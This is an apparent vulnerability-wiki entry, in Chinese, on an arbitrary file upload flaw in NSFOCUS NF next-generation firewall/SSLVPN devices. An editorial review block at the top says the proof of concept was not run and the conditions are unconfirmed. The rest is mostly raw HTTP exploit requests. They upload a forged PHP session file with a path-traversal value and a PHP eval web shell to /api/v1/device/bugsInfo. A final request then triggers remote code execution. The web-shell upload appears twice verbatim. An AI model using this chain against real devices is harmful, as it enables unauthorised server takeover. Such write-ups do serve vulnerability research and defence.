




# 绿盟 NF下一代防火墙 任意文件上传漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：NSFOCUS NF / SSLVPN混写
- 本文讨论：bugsInfo上传/会话lang文件包含链
- 版本、权限与配置前提：8081可达；版本/auth缺失
- 资料类型：上传到包含链重稿；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 与367完整正文相同；SSLVPN/NF冲突、重复compose上传、缺链条件均保留
- 无厂商补丁/原研
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留

### 待核与来源

- 上传路径与会话include条件未确认
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

绿盟 SSLVPN 存在任意文件上传漏洞，攻击者通过发送特殊的请求包可以获取服务器权限，进行远程命令执行

## 漏洞影响

绿盟 SSLVPN

## 网络测绘

```
app="NSFOCUS-下一代防火墙"
```

## 漏洞复现

主页面



出现漏洞的端口为 8081

```http
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=1d52ba2a11ad8a915eddab1a0e85acd9
Host: 

--1d52ba2a11ad8a915eddab1a0e85acd9
Content-Disposition: form-data; name="file"; filename="sess_82c13f359d0dd8f51c29d658a9c8ac71"

lang|s:52:"../../../../../../../../../../../../../../../../tmp/";

--1d52ba2a11ad8a915eddab1a0e85acd9--
```



```http
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```



```http
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```



```http
POST /mail/include/header_main.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID_NF=82c13f359d0dd8f51c29d658a9c8ac71
Host:

cmd=phpinfo();
```

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
